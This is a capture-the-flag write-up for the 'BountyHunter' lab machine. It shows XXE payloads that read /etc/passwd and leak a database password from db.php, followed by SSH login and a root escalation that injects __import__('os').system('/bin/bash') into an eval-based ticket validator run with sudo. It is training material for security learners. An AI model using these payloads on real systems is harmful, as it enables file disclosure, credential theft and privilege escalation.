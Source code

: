 ## **BOUNTY HOUNTER  WRITE  UP**

Machine Difficulty: <span style="color:#39e600">Easy</span> | Machine OS: <span style="color:#39e600">Linux</span>

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/a24c032885e56a17a6c74cc58b63e8f4.png?raw=true)

Bounty hunter is an easy box based on well known vulnerability with a twist. For the initial foothold if you find the path you have to follow it and when it comes to end think a little bit different (OWASP will help you a lot). The root is straightforward, maybe you stuck for a bit, but if you combine some things you will get what you want!

----



**Nmap Scan**

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010535743.png?raw=true)

**Gobuster Scan**

![image-20210808143902953](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143902953.png?raw=true)

Accessing the /portal.php we see a bounty report form.

![image-20210808143133909](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143133909.png?raw=true)

Let's take the request in burp and analyze it a little bit.

![image-20210808143249434](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143249434.png?raw=true)

```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ%2BdGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

Base64 decode. We see it id xml and that is a good sign!

 ```
 <?xml  version="1.0" encoding="ISO-8859-1"?>
 		<bugreport>
 		<title>test</title>
 		<cwe>test</cwe>
 		<cvss>test</cvss>
 		<reward6É•Ý…É�'Vw&W'C`
 ```

It brakes a little bit. We have to URL decode first and then base64 decode.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

**XXE payload**

Create a new **ENTITY** called xxe, **SYSTEM** is a keyword that let the XML parser know that the ENTITY type is **EXTERNAL**

More about XXE on  [PortSwigger](https://portswigger.net/web-security/xxe/ ) 

````
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1</reward>
		</bugreport>

````

Final PoC with URL and base64 encoded

```
data= PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4meHhlOzwvdGl0bGU%2BCgkJPGN3ZT5UZXN0PC9jd2U%2BCgkJPGN2c3M%2BMTIzPC9jdnNzPgoJCTxyZXdhcmQ%2BMTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

*Response:*

![image-20210727231428484](![image-20210727231428484.png](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210727231428484.png?raw=true)

We successfully read the **/etc/passwd** file!

I tried to find the id_rsa of the user **developemt**, to access the **/etc/shadow**, to access the the **db.php** but all was a dead end.

Until I used filter base64 to access the **db.php**

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

![image-20210730010636672](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010636672.png?raw=true)

We got a base64 string response

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

*Decoded*. 

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We successfully login with ssh as **development**.

![image-20210730010919988](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010919988.png?raw=true)

****



## **Privilege Escalation**

My fav command **sudo -l**

![image-20210730012727472](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730012727472.png?raw=true)

Let's locate ticketValidator.py and examine it.

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```

There is also and a folder with invalid tickets, this will help us!

![image-20210730013101639](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-2021073001053003.png?raw=true)

Invalid ticket (/opt/skytrain_inc/invalid_tickets)

```
# Skytrain Inc
## Ticket to Bridgeport
__ticket code:__
**18+71+8**
##Issued: 2021/06/21
#End Ticket

```

After some time modifying my **test.md** this is the final PoC for root.

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**18+71 + __import__('os').system('/bin/bash')
```

```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![image-20210730171259804](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730171259804.png)

ROOT ROOT ROOT!

<span style="font-family:Papyrus; font-size:2em;">Happy Hacking!</span> 



